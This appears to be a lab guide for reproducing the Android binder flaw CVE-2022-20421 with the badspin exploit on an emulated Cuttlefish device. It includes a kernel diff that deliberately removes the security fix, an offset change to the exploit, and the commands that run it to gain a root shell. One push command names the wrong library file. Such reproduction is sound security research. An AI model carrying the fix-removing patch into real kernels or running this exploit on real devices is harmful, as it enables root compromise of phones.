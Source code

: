 Instructions and overview to reproduce CVE-2022-20421 (https://github.com/0xkol/badspin/tree/main)
This reproduction uses cuttlefish, so an ARM server with KVM virtualization support is needed.
# Setup Cuttlefish
Roughly follow https://source.android.com/docs/devices/cuttlefish/get-started

First part to clone goes the same:
```sh
sudo apt install -y git devscripts equivs config-package-dev debhelper-compat golang curl
git clone https://github.com/google/android-cuttlefish
```

However, on the debian version I was on, libtinfo5 was no longer available, so I had to use libtinfo6.
Apply the following patch if there is an issue with this:
```diff
diff --git a/base/debian/control b/base/debian/control  
index 80a3be138..492b8d1e1 100644  
--- a/base/debian/control  
+++ b/base/debian/control  
@@ -13,7 +13,7 @@ Build-Depends: bazel [amd64],  
               libgoogle-glog-dev,  
               libgtest-dev,  
               libjsoncpp-dev,  
-               libtinfo5,  
+               libtinfo6,  
               libprotobuf-c-dev,  
               libprotobuf-dev,  
               libssl-dev,
```

Run the rest of the commands to install cuttlefish the same as on the website:
```sh
tools/buildutils/build_packages.sh
sudo dpkg -i ./cuttlefish-base_*_*64.deb || sudo apt-get install -f
sudo dpkg -i ./cuttlefish-user_*_*64.deb || sudo apt-get install -f
sudo usermod -aG kvm,cvdnetwork,render $USER
sudo reboot
```

Cuttlefish requires and android image and host package to run also. Follow instructions on the website and download host tools for android13 with a 5.10 kernel, and extract them both into the same folder.

# Building Vulnerable Kernel

I used the `common-android13-5.10-2025-03`, which did have the bug fixed, but I reintroduced the bug. The commit which fixes the bug is https://android.googlesource.com/kernel/common/+/19bb609b45fbbab4cfd9a8765dc8cb9c90cfda34.

To reintroduce the bug, clone the kernel as follows:
```sh
mkdir common-android13-5.10-2025-03
cd common-android13-5.10-2025-03
repo init --partial-clone --no-use-superproject -u https://android.googlesource.com/kernel/manifest -b common-android13-5.10-2025-03
repo sync -c -j8
```
It may take quite a while to clone the kernel.

Then apply the following patch:
```diff
diff --git a/drivers/android/binder.c b/drivers/android/binder.c  
index bebc9827ef05..521e7d638ba5 100644  
--- a/drivers/android/binder.c  
+++ b/drivers/android/binder.c  
@@ -1556,7 +1556,8 @@ static int binder_inc_ref_for_node(struct binder_proc *proc,  
       }  
       ret = binder_inc_ref_olocked(ref, strong, target_list);  
       *rdata = ref->data;  
-       if (ret && ref == new_ref) {  
+       // patch out CVE-2022-20421 fix to run badspin exploit  
+       //if (ret && ref == new_ref) {  
               /*  
                * Cleanup the failed reference here as the target  
                * could now be dead and have already released its  
@@ -1564,9 +1565,9 @@ static int binder_inc_ref_for_node(struct binder_proc *proc,  
                * with strong=0 and a tmp_refs will not decrement  
                * the node. The new_ref gets kfree'd below.  
                */  
-               binder_cleanup_ref_olocked(new_ref);  
-               ref = NULL;  
-       }  
+               //binder_cleanup_ref_olocked(new_ref);  
+               //ref = NULL;  
+       //}  
   
       binder_proc_unlock(proc);  
       if (new_ref && ref != new_ref)
```

Then build the kernel using the following command (note: it may take a lot of memory (~20 GB) to build the kernel):
```sh
tools/bazel run //common-modules/virtual-device:virtual_device_aarch64_dist
```

The kernel image will be present at `out/android13-5.10/dist/Image`, and the init ramdisk will be present at `out/android13-5.10/dist/initramfs.img`. Copy these files over to the arm server.

# Building Badspin
Install android studio cli tools, and use those to install ndk.

Badspin will need to be modified slightly, just changing 1 offset.
Run the following command to get the offset of `anon_pipe_buf_ops`:
```
$ readelf -s out/android13-5.10/dist/vmlinux | grep 'anon_pipe_buf_ops'
199165: ffffffc012024da8    32 OBJECT  LOCAL  DEFAULT    3 anon_pipe_buf_ops
```

Replace the address in the `offset_kbase` function like shown below:
```diff
--- a/badspin_reproduction/src/rw.c  
+++ b/badspin_reproduction/src/rw.c  
@@ -568,7 +568,7 @@ u64 noop_kbase(struct rw_info *rw) {  
u64 offset_kbase(struct rw_info *rw) {  
    //return rw->ki.pipe_buffer_ops - OFFCHK(dev_config->kconsts.kernel_offsets.k_anon_pipe_buf_ops);  
    // MODIFIED  
-    return rw->ki.pipe_buffer_ops - (0xffffffc00a03f868 - 0xffffffc008000000);  
+    return rw->ki.pipe_buffer_ops - (0xffffffc012024da8 - 0xffffffc008000000);  
}
```

Then compile badspin with:
```sh
cd src/
ANDROID_NDK_HOME=/path/to/android_sdk/ndk/25.2.9519653/ make all
```

This will produce a `libbadspin.so` shared library.

# Running Custom Kernel
Navigate to folder where android image and host tools was extracted to earlier. Copy the `Image` and `initramfs.img` files to this folder, and to start cuttlefish run:
```sh
HOME=$PWD ./bin/launch_cvd -kernel_path=./Image -initramfs_path=initramfs.img -cpus 8
```
Note badspin requires at least 5 CPUs I think, I used 8 to be safe.

# Running Badspin Exploit
Starting in the same folder as previously, run the following command to upload `libbadspin.so` to cuttlefish device:
```sh
HOME=$PWD ./bin/adb push libbadnode.so /data/local/tmp
```

Get a shell on the device with the command (run command until it finds the device):
```sh
HOME=$PWD ./bin/adb shell
```

To run the badspin exploit, in the adb shell, run:
```sh
LD_PRELOAD=/data/local/tmp/libbadspin.so sleep 1
```

It seems to have a 10%-20% success rate, if the device crashes, just re upload `libbadspin.so`, reconnect `adb shell`, and try again.
Badspin repo seems to suggest exploit is unstable for first few minutes device is up, so waiting a bit before running may help.

If exploit succeeds, it should spawn a root shell.

# Badspin Issues Encountered
- First issue: kernel hangs after `triggering UAF` printed
	- This is caused by not enough cpus being available in cuttlefish VM
	- Raise CPU number from 2 to 8
- Second Issue: `epool_ctl` fails with`ENOSPC` when setting up timerfd race extension trick
	- This is caused by epoll user watch limit in `/proc/sys/fs/epoll/max_user_watches` being hit
	- Exploit makes about 50000 epoll entries per try
	- Limit is around 16600
	- Instead set amount used around 15000
